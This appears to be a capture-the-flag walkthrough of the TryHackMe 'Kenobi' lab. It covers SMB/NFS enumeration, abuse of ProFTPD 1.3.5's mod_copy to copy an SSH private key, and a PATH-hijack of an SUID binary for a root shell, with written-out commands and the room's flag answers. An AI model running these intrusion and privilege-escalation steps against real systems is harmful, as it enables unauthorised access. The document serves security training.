




# Kenobi

```
Joe Vinyard | 20230324
```
Walkthrough on exploiting a Linux machine.  Enumerate Samba for shares, mannipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

# Task 1: Deploy the vulnerable machine.

This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privliges to root via an SUID binary.

## *Answer the questions below*

Make sure you're connected to our network and deploy the machine.
```
no answer needed
```
Scan the machine with nmap, how many ports are open?
```
7
```

# Task 2: Enumerating Samba for Shares 


Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

## *Answer the questions below*

Using nmap we can enumerate a machine for SMB shares.

Nmap has the ability to run and automate a variety of networking tasks.  There is a script to enumerate shares!

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <machine IP>`

SMB has two ports, 445 and 139


Using the nmap command above, how many shares have been found?
```
3
```


On most distributions of Linux smbclient is already installed.  Let's inspect one of the shares
`smbclient //<machine IP>/anonymous`

Using your machine, connect to the machine's network share.


Once you're connected, list the files on the share.  What is the file you can see?
```
log.txt
```


You can recursively download the SMB share too.  Submit the username and password as nothing.
`smbget -R smb://10.10.168.146/anonymous`

Open the file on the share.  There is a few interesting things found.
* Information generated for Kenobi hen generating an SSH key for the user
* Information about the ProFTPD server


What port is FTP running on?
```
21
```


Your earlier nmap port scan will have shown port 111 running the service rpcbind.  This is just a server that converts remote procedure call (RPC) program number into universl addresses.  When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number it's prepared to serve.

In our case, port 111 is access to a network file system.  Let's use nmap to enumerate this.

`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.168.146`

What mount can we see?
```
/var
```


# Task 3: Gain intial access with ProFtpd


ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems.  Its also been vulnerable in the past software versions.

*Answer the questions below*

Let's get the version of ProFtpd.  Use netcat to connect to the machine on the FTP port.

What is the version?
```
1.3.5
```


It's also worth noting that we could have gleaned this information from our initial nmap scan.


We can use searchsploit to find exploits for a particular software version.

Searchsploit is basically just a command line search tool for exploit-db.com

How many exploits are there for the ProFtpd running?
```
4
```
Not sure why THM was expecting 4 as the "correct" answer, but running `searchsploit proftpd 1.3.5` clearly shows three exploits available


You should have found an exploit from ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html)

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server.  Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an SSH key is generated for that user.
```
no answer needed
```

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands


We knew that the /var directory was a mount we could see (task 2 question 4).  So we've now moved Kenobi's private key to the /var/tmp directory.
```
no answer needed
```

Let's mount the /var/tmp directory to our machine

```
mkdir /mnt/kenobiNFS
mount 10.10.168.146:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```


We now have a network mount on our deployed machine!  We can go to /var/tmp and get the private key then login to Kenobi's acct.



What is Kenobi's user flag (/home/kenobi/user.txt)?
```
d0b0f3f53b6caa532a83915e19224899
```


# Task 4: Privilege Escalation with Path Variable Manipulation


Let's first understand what SUID,SGID and Sticky Bits are.

| Permission | On Files | On Directories |
| ---------- | -------- | -------------- |
| SUID Bit   | User executes the file with the permissions of the *file* owner | - |
| SGID Bit   | User executes the file with the permission of the *group* owner | File created in directory gets the same group owner. |
| Sticky Bit | No meaning | Users are prevented from deleting files from other users. | 

*Answer the questions below*

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the system for these types of files run the following: `find / -perm -u=s -type f 2>/dev/null`

Let's break this down.  We're using the `find` command to search the root of the filesystem (`/`) where the permissions for the user has the SUID bit set (`-perm -u=s`) on any file (`-type f`) and redirecting any errors (STDERR) to /dev/null (`2>/dev/null`).


What file looks particularly out of the ordinary?
```
/usr/bin/menu
```
Run the binary, how many options appear?
```
3
```


Strings is a command on Linux that looks for human readable strings on a binary.

If we run `strings /usr/bin/menu` we can see some of the output includes the following:


This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname)

As this file runs as the root useres privileges, we can manipulate our path to gain a root shell.

If we first run /usr/bin/menu and then select option 1 (status check) we see the following


However, if we copy /bin/sh and name it curl, make it globally executable and put its location in our path, we should be able to run the menu binary, select option 1 (`curl -I hostname`) which should then run "curl" (/bin/sh) *as root*.


```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

I opted to use `/dev/shm` as the directory to add to `$PATH` as it's globally writeable


Let's give it a shot and see if it all goes according to plan.


What is the root flag (/root/root.txt)?
```
177b3cd8562289f37382721c28381f02
```

That's it for this one!